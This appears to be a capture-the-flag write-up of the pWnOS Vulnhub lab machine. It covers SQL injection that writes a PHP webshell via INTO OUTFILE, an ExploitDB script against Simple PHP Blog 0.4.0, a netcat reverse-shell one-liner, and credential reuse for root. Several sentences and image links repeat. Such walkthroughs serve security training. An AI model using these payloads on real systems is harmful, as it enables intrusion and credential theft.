pWnOS is another OSCP-like machine from Vulnhub which has multiple ways to be solved.
Port Scan
This machine uses an static IP address (10.10.10.100), so we can skip the network scan.
 There are only two ports open, one for SSH and the other one for HTTP (which is the most interesting).
There are only two ports open, one for SSH and the other one for HTTP (which is the most interesting).
Port 80 Enumeration
The root page is an internal website with both a register and a login form. I registered into the website while Gobuster and SQLMap were running but I couldn’t get anything interesting from this. Gobuster found a directory called blog and SQLMap found that the login form was injectable.
 

From here there are two methods that can be followed to get a shell into the machine.


From here there are two methods that can be followed to get a shell into the machine.
Method 1 (SQL Injection)
Using the SQL Injection we can leak the hash of the password of the administrator, but it isn’t used for anything. I decided to do the SQL Injection methods manually after using SQLMap to try to learn more about them. First, I attempted to leak information using an “UNION SELECT” in the query with 8 columns. The fourth column was displayed in the login page, so I could change it to any column in any table to leak it.
 I added a “INTO OUTFILE ‘/var/www/shell.php’” to the previous query to try to upload a shell to the machine. The query ended up being:
I added a “INTO OUTFILE ‘/var/www/shell.php’” to the previous query to try to upload a shell to the machine. The query ended up being:
SELECT * FROM users WHERE email=''
UNION
SELECT 1,2,3,'<?php system($_REQUEST["cmd"]); ?>',5,6,7,8
FROM USERS INTO OUTFILE ‘/var/www/shell.php’#

Method 2 (Exploiting Simple PHP Blog)
In the blog directory there is a blog that uses “Simple PHP Blog” version 0.4.0 (as seen in the page meta data). This version of Simple PHP has multiple vulnerabilities and I used a perl script from ExploitDB to exploit them.




www-data Shell and PrivEsc
We can use a reverse shell from any of the two webshells that we uploaded to get a more interactive shell. To do so I used this one liner from the Pentest Monkey Cheatsheet:
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f 
The first thing I did was checking the configuration files to get the user and the password of the MySQL account. I found two files with credentials, one at /var/mysqli_connect.php and the other one at /var/www/mysqli_connect.php.

 The second credentials were wrong, but the ones in the first one could also be used to get root in the machine.

The second credentials were wrong, but the ones in the first one could also be used to get root in the machine.

Investigating other methods
The kernel version of the server is 2.6.38, which is really old. I tried using some kernel exploits but I couldn’t get them to work (probably because Dirty COW relies on a race condition but the machine only had one CPU).

The other thing that caught my attention was the fact that the mysql user had UID of 0 and that the MySQL server was running as root, which means that we can write files on the machine with root privileges.

 I spent a lot of time with this, but I couldn’t get anything. I tried writing an authorized_keys files but I wasn’t able to create a .ssh folder anywhere. I also tried to get code execution using the /etc/cron.d directory, but for reasons I don’t understand the cronfiles didn’t want to run (I did the same on my machine and it worked).
I spent a lot of time with this, but I couldn’t get anything. I tried writing an authorized_keys files but I wasn’t able to create a .ssh folder anywhere. I also tried to get code execution using the /etc/cron.d directory, but for reasons I don’t understand the cronfiles didn’t want to run (I did the same on my machine and it worked).
Conclusions
This is a really easy machine which can be completed pretty fast, so I used it to learn more about SQL Injection and Linux privilege escalation.